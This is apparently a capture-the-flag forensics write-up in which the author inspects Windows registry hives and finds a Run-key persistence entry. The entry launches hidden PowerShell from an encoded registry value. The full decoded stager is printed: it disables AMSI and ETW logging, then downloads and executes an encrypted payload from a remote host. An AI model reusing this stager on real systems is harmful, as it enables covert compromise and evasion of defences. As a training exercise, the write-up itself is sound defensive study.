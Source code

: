 #Title: New Task
#Difficulty: Very Easy
#Type: Forensics

First we need to download the files.

```bash
└─$ file SECURITY 
SECURITY: MS Windows registry file, NT/2000 or above
```

To view those files we can use regshell. After checking all files I am left with software and system files and checking system returned nothing.


regshell -F software

\> cd Microsoft
New path is: \Microsoft
\Microsoft> cd Windows
New path is: \Microsoft\Windows
\Microsoft\Windows> cd CurrentVersion
New path is: \Microsoft\Windows\CurrentVersion
\Microsoft\Windows\CurrentVersion> cd Run
New path is: \Microsoft\Windows\CurrentVersion\Run
\Microsoft\Windows\CurrentVersion\Run> ls
V "SecurityHealth" REG_EXPAND_SZ %windir%\system32\SecurityHealthSystray.exe
V "VBoxTray" REG_EXPAND_SZ %SystemRoot%\system32\VBoxTray.exe
V "Updater" REG_SZ "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$x=$((gp HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion Debug).Debug);powershell -Win Hidden -enc $x"
\Microsoft\Windows\CurrentVersion\Run>cd ..
\Microsoft\Windows\CurrentVersion>ls


Debug includes a big base64 value. I used decoder to see whats that value at `https://www.base64decode.org/`. 

```bash
If($PSVersionTable.PSVersion.Major -ge 3){$Ref=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');$Ref.GetField('amsiInitFailed','NonPublic,Static').Setvalue($Null,$true);[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0);};[System.Net.ServicePointManager]::Expect100Continue=0;$wc=New-Object System.Net.WebClient;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$ser=$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('aAB0AHQAcAA6AC8ALwA3ADcALgA3ADQALgAxADkAOAAuADUAMgA6ADgAMAA4ADMA')));$flag="HTB{4tt4ck3rS_4lw4ys_P3rs1st}";$t='/login/process.php';$wc.Headers.Add('User-Agent',$u);$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;$Script:Proxy = $wc.Proxy;$K=[System.Text.Encoding]::ASCII.GetBytes('9Ci!QG~VXeg6s^(?3tE5y,w<=2|H)4+r');$R={$D,$K=$Args;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Count])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxor$S[($S[$I]+$S[$H])%256]}};$wc.Headers.Add("Cookie","FYVbrz=k/UOt6R+DU5r4HakRtAr3LoUVdw=");$data=$wc.DownloadData($ser+$t);$iv=$data[0..3];$data=$data[4..$data.length];-join[Char[]](& $R $data ($IV+$K))|IEX
```

`HTB{4tt4ck3rS_4lw4ys_P3rs1st}`

